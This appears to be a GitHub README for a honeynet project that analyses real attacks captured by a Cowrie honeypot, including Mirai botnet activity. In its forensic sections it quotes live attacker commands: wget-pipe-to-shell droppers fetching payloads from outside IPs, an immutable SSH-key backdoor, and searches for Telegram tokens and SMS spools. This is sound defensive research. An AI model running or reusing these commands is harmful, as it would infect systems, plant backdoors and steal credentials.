




# 🛡️ Global Threat Intelligence Node & Honeynet

## 📋 Executive Summary
Designed and deployed a high-interaction **Honeynet** (T-Pot Framework) on a hardened **Azure Virtual Machine**. The system acts as a decoy to lure, capture, and analyze real-world cyber attacks in a controlled environment. This project provides a live telemetry feed of global threat actor behavior, enabling the identification of emerging attack vectors, automated credential harvesting, and post-exploitation malware delivery.

**Key Metrics & Impact:**
* **Rapid Discovery:** The asset was targeted by automated botnets within minutes of deployment, recording **4,736 unauthorized connection attempts** to the management plane in the initial open-access testing phase.
* **Malware Capture:** Successfully captured and documented a live, fileless malware infection attempt attributed to the **Mirai Botnet**.
* **Proactive Hardening:** Mitigated 100% of unauthorized management probes by implementing **Zero-Trust Network Security Groups (NSGs)** and Source-IP Whitelisting at the network edge.

---

## 🗺️ I. Geographic Attack Mapping
Within 24 hours of deployment, the node captured real-time scanning and brute-force attempts from multiple international geographic regions, highlighting the extreme speed at which cloud assets are mapped by threat actors.

> *Dashboard visualization (Kibana) of inbound attack vectors, categorizing traffic by destination port and geographic origin.*

---

## 🎣 II. Credential Harvesting & Brute-Force Analysis
Utilizing the **Cowrie** high-interaction SSH/Telnet honeypot, the system captured thousands of automated dictionary attacks. 

### Credential Tag Clouds

> *Visual representation of the most frequently attempted username and password combinations. Note the high frequency of default credentials (`root`, `admin`) alongside targeted crypto-node names (`sol`, `solana`).*

### Targeted Infrastructure Sweeps

> *Log analysis revealed targeted sweeps looking for specific infrastructure, such as Solana cryptocurrency validators (`sol`, `validator`), demonstrating that modern botnets are financially motivated and highly specific.*

---

## 🦠 III. Initial Execution: Mirai Botnet Capture
Following a successful brute-force attack (`root/root`) by a South Korean IP address, the system captured the immediate post-exploitation keystrokes executed by the automated threat actor.

### The Cyber Kill Chain in Action:
1. **System Reconnaissance & Evasion:** The bot executed `/bin/./uname -s -v -n -r -m` using path obfuscation to bypass basic logging while fingerprinting the OS architecture.
2. **Fileless Execution (The Dropper):** The script attempted to navigate to a volatile memory directory (`/dev/shm`) and executed `wget -qO- http://196.251.107.133/bins/sin.sh | sh &`. This piped a malicious shell script directly into execution without saving it to disk.
3. **Redundancy:** Anticipating that `wget` might be uninstalled by security engineers, the bot immediately attempted a fallback connection using `nc` (Netcat) over TCP/3345.

### OSINT Attribution

> *Cross-referencing the extracted payload IP (`196.251.107.133`) using VirusTotal confirmed the infrastructure belongs to the **Mirai botnet**, corroborating the architecture-scanning behavior captured in the logs.*

---

## 🔬 Advanced Forensics: Multi-Actor Post-Exploitation Analysis
Extended monitoring of the honeynet's logs revealed that the infrastructure was targeted by multiple distinct threat actors, each with specialized post-exploitation playbooks. Below is a behavioral analysis of five unique attacker profiles captured in the environment.

### 1. The Persistent Backdoor Installer (Defense Evasion)
This threat actor attempted to establish a persistent, unremovable backdoor using Linux file attributes and encoded Command & Control (C2) signaling.

**Raw Log Capture:**
`chmod +x clean.sh; sh clean.sh; rm -rf clean.sh; mkdir -p ~/.ssh; chattr -ia ~/.ssh/authorized_keys; echo "ssh-rsa AAAAB3...[truncated]" > ~/.ssh/authorized_keys; chattr +ai ~/.ssh/authorized_keys; echo -e "\x61\x75\x74\x68\x5F\x6F\x6B\x0A"`

**Forensic Breakdown:**
* **Pre-Execution Cleanup:** The attacker executes and deletes a cleanup script (`rm -rf clean.sh`) to kill competing malware and minimize their disk footprint.
* **Environment Preparation:** Crucially, it runs `chattr -ia` on the `authorized_keys` file to strip any existing "immutable" protections set by system administrators before writing to it.
* **Key Injection & Evasion:** After injecting their RSA key, the attacker uses `chattr +ai ~/.ssh/authorized_keys` to make the file **immutable** and **append-only**. This prevents even the `root` user from easily deleting the backdoor.
* **C2 Signaling:** The execution concludes by echoing a hex-encoded string. When decoded, this translates to `auth_ok\n`, acting as a beacon back to the C2 server confirming successful backdoor installation.

### 2. The Automated Surveyor (Data Brokering)
This bot’s objective was to aggressively profile the system to evaluate its worth, likely to sell the access to a specialized ransomware or cryptomining group.

**Raw Log Capture:**
`hostname; echo '___BSEP_A1B2C3___'; uname -a; echo '___BSEP_A1B2C3___'; whoami; echo '___BSEP_A1B2C3___'; netstat -tulpn | head -10; echo '___BSEP_A1B2C3___'; cat /etc/os-release`

**Forensic Breakdown:**
* **System Profiling:** The script executes a rapid succession of commands (`whoami`, `netstat`, `cat /etc/os-release`) to map open ports, user privileges, and the specific OS version.
* **Programmatic Parsing:** The attacker echoes the unique string `___BSEP_A1B2C3___` between every command. This acts as a delimiter, allowing the attacker's C2 server to automatically parse the massive wall of returned text into a clean database.

### 3. The Info Stealer & Resource Hijacker
This highly specialized, financially motivated threat actor hunted for specific applications and competing malware.

**Raw Log Capture:**
`ps -ef | grep '[Mm]iner'`
`ls -la ~/.local/share/TelegramDesktop/tdata /dev/ttyGSM* /var/spool/sms/*`

**Forensic Breakdown:**
* **Resource Hijacking:** The actor runs `grep '[Mm]iner'` to check if another hacker has already installed a crypto-miner so they can kill the process and steal the CPU resources for themselves.
* **Identity Theft & MFA Bypass:** The script actively hunts for Telegram session tokens (`tdata`). If stolen, the attacker can clone the user's Telegram account, bypassing 2FA. Additionally, it sweeps for GSM cellular modems (`/dev/ttyGSM*`) and SMS spools, which are targeted to intercept SMS-based 2FA codes.

### 4. The IoT & Enterprise Router Exploiter
This botnet blindly executes commands designed to exploit poorly secured enterprise hardware, unaware it is trapped in a Linux simulation.

**Raw Log Capture:**
`enable`
`system`
`shell`
`sh`
`wget http://202.155.10.112/shr; chmod 777 shr; ./shr ssh`

**Forensic Breakdown:**
* **Hardware Breakout:** The sequence `enable -> system -> shell` is the exact command path required to break out of the restricted command-line interface (CLI) of specific enterprise routers (e.g., Cisco, MikroTik) and drop into the underlying root shell.
* **Malware Delivery:** Once the shell is assumed active, the bot uses `wget` to pull down an executable payload, modifies the permissions, and attempts to run it.

### 5. The "Blind" Web Scanner (Protocol Confusion)
Not all attacks are targeted; many are spray-and-pray vulnerability scanners that do not verify the underlying service running on a port.

**Raw Log Capture:**
`Username: GET / HTTP/1.1`
`Password: Host: 20.48.229.199:23`
`User-Agent: visionheight.com/scan Mozilla/5.0...`

**Forensic Breakdown:**
* **Protocol Collision:** This bot is a blind web scanner looking for vulnerable HTTP/HTTPS services. It blindly threw a standard web browser request (`HTTP GET`) at Port 22. 
* **Sensor Interpretation:** Because Cowrie is simulating an SSH server, it does not understand HTTP. It simply parsed the first incoming string as the "username" and the second string as the "password," cleanly demonstrating how automated scanners create noisy, malformed logs when hitting unexpected protocols.

### Threat Intelligence Takeaway
This multi-actor analysis illustrates that relying solely on strong passwords is insufficient. Modern cloud assets face simultaneous threats from cryptominers, data brokers, IoT botnets, and blind web scanners. Effective defense requires Defense-in-Depth, including strict network segmentation, File Integrity Monitoring (FIM), and behavioral alerting.

---

## 📂 VII. Published Threat Intelligence Briefs
As new campaigns and threat actors are identified within the honeynet, detailed forensic briefs are published below:

* [🚨 Threat Brief: Database & Remote Desktop Credential Harvesting (Heralding)](Threat-Briefs/Heralding_Database_Attacks.md)

* [🚨 Threat Brief: Unauthenticated File Shares & Malware Droppers (Dionaea)](Threat-Briefs/Dionaea_Malware_Traps.md)
  

* [🕵️‍♂️ Case Study: Zero-Day Botnet Discovery](Threat-Briefs/Zero-Day_Botnet_Discovery.md)
  

*  [🗄️ Threat Hunt: Database Credential Harvesting & `sa` Targeting](Threat-Briefs/Database_Credential_Harvesting.md)
  
  
* [🔄 Threat Hunt: Application-Layer Protocol Confusion](Threat-Briefs/API_Protocol_Confusion.md)
